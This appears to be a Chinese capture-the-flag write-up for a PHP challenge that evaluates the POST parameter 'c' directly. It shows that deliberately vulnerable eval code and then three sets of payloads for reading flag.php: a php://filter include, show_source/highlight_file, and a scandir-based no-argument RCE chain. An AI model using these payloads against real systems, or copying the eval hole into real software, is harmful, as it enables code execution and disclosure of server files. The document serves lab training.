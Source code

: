 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}

```



### 第一种

嵌套include

```
c=include$_POST[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
```

![image-20250404160854172](./assets/image-20250404160854172.png)





### 第二种

show_source()

```
c=show_source("flag.php");
```

![image-20250404160941544](./assets/image-20250404160941544.png)

```
c=highlight_file("flag.php");
```

![image-20250404160959076](./assets/image-20250404160959076.png)





### 第三种

参考无参rce

```
c=var_dump(scandir(getcwd()));
```

![image-20250404161019307](./assets/image-20250404161019307.png)

```
c=show_source(next(array_reverse(scandir(getcwd()))));
```

![image-20250404161029832](./assets/image-20250404161029832.png)